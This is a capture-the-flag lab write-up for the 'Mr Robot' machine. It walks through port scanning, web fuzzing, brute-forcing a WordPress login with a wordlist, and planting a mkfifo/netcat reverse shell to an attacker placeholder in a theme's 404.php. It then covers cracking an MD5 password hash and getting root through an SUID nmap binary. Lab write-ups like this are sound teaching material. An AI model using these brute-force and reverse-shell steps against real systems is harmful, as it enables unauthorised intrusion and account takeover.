




# Nmap
After we ping the target we see that the ttl is 63, we might probably dealing with a Linux hosts (since this is most of the time the case). It might still be antohter OS.
[Here's] a list with the different OSes and their ttl's.


We start off with a TCP ports scan for all ports. In these challenges I tend to speed things up by using a minimum rate of 2000. In real life i might go slower later on because I might miss some ports.


```sh
┌──(kali㉿kali)-[~/THM/MR_ROBOT/recon/nmap]
└─$ nmap 10.10.22.96 --min-rate 2000 -p- -oA init  
```
## Nmap Results
```zsh
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```

## NMAP Version and Script
We continue with scanning the open ports we found with checking the versions (-sV) and using the default set of scripts (-sC). 
Some of these default scripts might be intrusive and might not be allowed in a real engagement.

In this scenario the default ssh-scripts are catagorized as `safe`. (`ssh-auth-methods` script is `intrusive`)
- [ssh-hostkey](https://nmap.org/nsedoc/scripts/ssh-hostkey.html)
- [sshv1](https://nmap.org/nsedoc/scripts/sshv1.html)


## Safe means
>Scripts which weren't designed to crash services, use large amounts of network bandwidth 
>or other resources, or exploit security holes are categorized as safe. These are less likely to offend remote administrators, though (as with all other Nmap features) we cannot guarantee that they won't ever cause adverse reactions. Most of these perform general network discovery...

I could not found different default scripts for http and https. Anyway let's enumerate using the above command

```zsh
nmap 10.10.22.96 --min-rate 2000 -p22,80,443 -sC -sV -oA openscsv -vv
```


```zsh
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c163b1987c342ad6634c1c9d0aafb97
| SHA-1: ef0c5fa5931a09a5687ca2c280c4c79207cef71b
| -----BEGIN CERTIFICATE-----
<LEFT OUT FOR READABILITY>
|_-----END CERTIFICATE-----
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```

Strange in the output it doesn't give the robots.txt which I found with manually. Anyone knwos this problem

# Port 80,443 HTTP(S)
When visiting the website we see some obscure message about the chipping away of my existence. Not really caring about that at the moment but it adds nice up to the theme.
Below the message we find a shell with some limited commands listed. I did not find any other command working. Running the commands doesn't seem to give me lot's of infomration.
Maybe come back to it later

## Mr Robot robots.txt
In the robots.txt file we find the following dissalowed files and directories:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

We can open them since we are not a robot, at least I'm not 🤖.
The `key-1-of-3.txt` contains a flag. I guess the first one of three. This seems to be the correct flag when we submit it on the panel!
`User-agent: *` Means that these entries apply to all user-agents. We download and open the `fsocity.dic` file. It is a huge list, containing 858160 entries, with seemingly random words.
Maybe this is useful for user, passwords and directory bruteforcing.

## Enumeration whit Whatweb
Next we will use the tool `whatweb` to enumerate the different versions and software used by the page:
>WhatWeb identifies websites. It recognises web technologies including content management systems (CMS), blogging platforms, 
>statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.
This is what whatweb does.

```zsh
whatweb http://10.10.22.96:80 -v -a1 
```
Some info in the results
```zsh
Summary   : Apache, HTML5, HTTPServer[Apache], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]
```
## Directory and file fuzzing with ffuf

```zsh
 ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.22.96/FUZZ -of all -o dirs80.html     -e .txt,.php,.html -c 
```
So robots.txt is showing up now.

## WP-login
In the results of ffuf we find the `/wp-login.php` file. We know that this is a wordpress site which was not found by whatweb.
To login to the page we need both a username and a password. I did look in the information of the page running different command but I did not found a name.
So let's switch to the `fsocity.dic` to check if there is a valid username.

I'm using the tool `wfuzz` for this. You could also use `hydra` with the `http-form-post`. But I just find the `wfuzz` syntax a bit better:
```zsh
wfuzz -c -w ~/Downloads/fsocity.dic --hs Invalid -d "log=FUZZ&pwd=password&wp-submit=Log In"" -u http://10.10.22.96/wp-login.php
```
What does this mean:
--c: simply output with colors
--w the wordlist we are using
---hs We hide all responses with this regex
--d is the post data
--u is the url we are requesting

How do we get the right data parameters? On the `/wp-login.php` page we can just simply right click in the page and view the page source.
We will look for the names of the username and password entry field and the submit button.

```html


<form name="loginform" id="loginform" action="http://10.10.22.96/wp-login.php" method="post">
	<p>
		<label for="user_login">Username<br/>
		<input type="text" name="log" id="user_login" aria-describedby="login_error" class="input" value="Elliot" size="20"/></label>
	</p>
	<p>
		<label for="user_pass">Password<br/>
		<input type="password" name="pwd" id="user_pass" aria-describedby="login_error" class="input" value="" size="20"/></label>
	</p>
		<p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"/> Remember Me</label></p>
	<p class="submit">
		<input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="Log In"/>
		<input type="hidden" name="redirect_to" value="http://10.10.22.96/wp-admin/"/>
		<input type="hidden" name="testcookie" value="1"/>
	</p>
</form>
```

Here we see the names `log` for the username and `pwd` for the password. Lastly the name of the submit button is `wp-submit` and the value we give it is `Log In`. We could also capture the request with burp and get the post parameters from there.

The regex we want to hide is the message we get when posting a invalid username. We can just put a random name in the field. We can put the whole message or just part of it as a value of the `--hs` flag.



## Wfuzz results
```zsh
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.22.96/wp-login.php
Total requests: 858160

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                     
=====================================================================

000000015:   200        58 L     194 W      3635 Ch     "Elliot"     
```

Bingo we found a username! Let's try bruteforcing the password with hydra. The syntax is similar.

```zsh
wfuzz -c -w ~/Downloads/fsocity.dic --hs incorrect -d "log=Elliot&pwd=FUZZ&wp-submit=Log In" -u http://10.10.22.96/wp-login.php 
```

That took a while and got me hesitating. Usualy it doesn't take so long. So I check another walkthrough (cheating) after I could not find any additional information.

#  Exploiting Wordpress
Now we are able to login to the wordpress dashboard

There are several ways to exploit the wordpress dashboard and get a reverse shell. The easiest way that  I like is to add php code to a theme.

1. Go to `Appearance` -> `editor` and select a non active theme. In this case I used 'twentythirteen'. Select the 404.php
2. add the the folliwning code to the theme:
```
exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER IP> 443 >/tmp/f");
```
3. Update the file
4. start a listener on port 443.
5. Now visit the URL: http://10.10.217.185//wp-content/themes/twentythirteen/404.php

BOOM! We have a shell as daemon.

In the /home/robot folder we can find `key-2-of-3.txt`

# Privilege escalation.
In the same folder there is an interresting file called `password.raw-md5`. When we read the contents we see the following:
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We can successfully crack the hash with hashcat:
```sh
hashcat c3fcd3d76192e4007dfb496cca67e13b -m 0 /usr/share/wordlists/rockyou.txt
```
After cracking the hash we can switch to user robot after upgradig our tty.:
```
python -c 'import pty; pty.spawn("/bin/bash")'

su robot
```

# Root
During enumartion we find an interresting file accoring to linpeas. And sure it is interesting: an nmap binary with the suid bit set:


The instructions to exploit this are found here: 
https://gtfobins.github.io/gtfobins/nmap/#suid


Let's preform this an get the last flag!




